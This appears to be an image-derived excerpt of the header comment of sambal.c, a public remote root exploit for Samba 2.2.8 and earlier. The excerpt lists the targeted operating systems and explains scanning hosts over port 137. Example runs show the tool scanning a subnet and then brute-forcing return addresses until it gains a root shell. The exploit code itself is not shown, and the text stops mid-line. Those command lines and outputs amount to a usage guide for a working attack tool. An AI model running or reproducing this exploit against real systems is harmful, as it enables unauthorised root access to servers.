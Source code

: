 EXP
---

    /*
        Remote root exploit for Samba 2.2.x and prior that works against
        Linux (all distributions), FreeBSD (4.x, 5.x), NetBSD (1.x) and
        OpenBSD (2.x, 3.x and 3.2 non-executable stack).
        sambal.c is able to identify samba boxes. It will send a netbios
        name packet to port 137. If the box responds with the mac address
        00-00-00-00-00-00, it's probally running samba.

        [esdee@embrace esdee]$ ./sambal -d 0 -C 60 -S 192.168.0
        samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
        --------------------------------------------------------------
        + Scan mode.
        + [192.168.0.3] Samba
        + [192.168.0.10] Windows
        + [192.168.0.20] Windows
        + [192.168.0.21] Samba
        + [192.168.0.30] Windows
        + [192.168.0.31] Samba
        + [192.168.0.33] Windows
        + [192.168.0.35] Windows
        + [192.168.0.36] Windows
        + [192.168.0.37] Windows
        ...
        + [192.168.0.133] Samba

        Great!
        You could now try a preset (-t0 for a list), but most of the
        time bruteforce will do. The smbd spawns a new process on every
        connect, so we can bruteforce the return address...

        [esdee@embrace esdee]$ ./sambal -b 0 -v 192.168.0.133
        samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
        --------------------------------------------------------------
        + Verbose mode.
        + Bruteforce mode. (Linux)
        + Using ret: [0xbffffed4]
        + Using ret: [0xbffffda8]
        + Using ret: [0xbffffc7c]
        + Using ret: [0xbffffb50]
        + Using ret: [0xbffffa24]
        + Using ret: [0xbffff8f8]
        + Using ret: [0xbffff7cc]
        + Worked!
        --------------------------------------------------------------
      Linux LittleLinux.selwerd.lan 2.4.18-14 #1 Wed Sep 4 11:57:57 EDT 2002 i586
     i586 i386 GNU/Linux
        uid=0(root) gid=0(root) groups=99(nobody)

    sambal.c : samba-2.2.8 < remote root exploit by eSDee (www.netric.org|

